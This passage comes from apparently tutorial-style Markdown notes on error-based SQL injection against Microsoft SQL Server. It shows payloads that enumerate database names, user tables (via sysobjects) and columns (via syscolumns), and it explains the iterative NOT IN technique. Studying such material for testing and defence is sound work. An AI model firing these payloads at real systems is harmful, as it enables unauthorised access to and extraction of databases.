         * ```
          9999 or 1 in (SELECT TOP 1 CAST(db_name(1) as varchar(4096))) --
          
          
          Notice 1 in db_name(1)
          
          To 1, 2, 3 and continue until we cannot enumerate more databases
          ```

    * ### Enumerating Database Tables

      * After getting list of installed databases and the current database in use, now next task is to **enumerate all the tables in the current database**

      * the same technique can easily be modified to apply to the other databases

      * Payload =>

        * ```
          9999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM
          <database name>..sysobjects WHERE xtype='U' and name NOT IN
          (<known table list>)); --
          ```

        * > Where :
          >
          > 
          >
          > * *xtype='U'*  => 
          >   * Means that we are only interested in user-defined tables
          > * *name NOT IN ('<known table list>')* => 
          >   * name is a column of the  *"sysobjects"*  special table.
          >   * Every time find a new table we will append it to the *NOT IN*  list
          >   * This is needed because the error displays only the first table name

      * Suppose, If a database contains 3 Tables

        * HR
        * Customers
        * Products

      * Then *<known table list>* will:

        * Be empty in the first payload. *... name NOT IN ('')* will work!
        * Contain '**HR**'  at the second step
        * Contain **'HR', 'Customer' , 'Products'** at the last step

    * ### Enumerating Columns

      * After retrieving tables of a database, now time to recover the columns of *each table*

      * This is the **schema** of the database

      * Payload to retrieve the columns =>

        * ```
          9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as
          varchar(4096)) FROM <db name>..syscolumns,<db name>..sysobjects
          WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <db
          name>..sysobjects.name=<table name> AND <db name>..syscolumns.name
          NOT IN (<known column list>)); --
          ```

